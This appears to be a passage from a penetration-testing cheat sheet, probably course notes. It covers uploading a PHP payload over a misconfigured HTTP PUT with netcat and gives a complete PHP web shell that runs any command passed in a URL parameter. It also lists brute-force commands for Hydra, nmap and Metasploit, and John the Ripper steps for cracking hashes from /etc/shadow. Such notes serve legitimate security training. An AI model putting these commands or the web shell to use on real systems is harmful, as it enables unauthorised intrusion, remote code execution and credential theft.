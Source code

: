 Tip: Dump only the data you're interested in, not the whole database. Dumping a lot of data using SQLi is very noisy and a heavy process.

#### Misconfigured PUT method
```bash
wc -m payload.php
20 payload.php
```
```bash
nc victim.site 80
PUT /payload.php HTTP/1.1
Host: victim.site
Content-type: text/html
Content-length: 20

<?php phpinfo(); ?>
```

#### Uploading PHP shell
```php
<?php
if (isset($_GET['cmd']))
{
    $cmd = $_GET['cmd'];
    echo '<pre>';
    $result = shell_exec($cmd);
    echo $result;
    echo '</pre>';
}
?>
```

#### Authentication Cracking with Hydra
  - `hydra -U http-post-form` (get info on a module)
  - `hydra -L users.txt -P passwords.txt <service://server> <options>`
  - `hydra crackme.site http-post-form "/login.php:user=^USER^&pwd=^PASS^:invalid credentials" -L users.txt -P passwords.txt -f -V`
  - `hydra 192.168.1.2 ssh -L users.txt -P passwords.txt -f -V`

#### Authentication Cracking with nmap
  - `nmap -p 22 --script ssh-brute --script-args userdb=/root/users.txt demo.ine.local`

#### Authentication Cracking with metasploit
  - `use auxiliary/scanner/ssh/ssh_login`
  - `set RHOSTS demo.ine.local`
  - `set USERPASS_FILE /usr/share/wordlists/metasploit/root_userpass.txt`
  - `set STOP_ON_SUCCESS true`
  - `set verbose true`
  - `exploit`

#### Password cracking using John the Ripper
  - `unshadow /etc/passwd /etc/shadow > crackme.txt`
  - `john --incremental -users:<users-list>  crackme.txt` (bruteforce, don't use it!)
  - `john --show crackme.txt`
  - `john --wordlist=<wordlist-filename> crackme.txt`
  - `john --wordlist=<wordlist-filename> --rules crackme.txt` (enable word mangling)
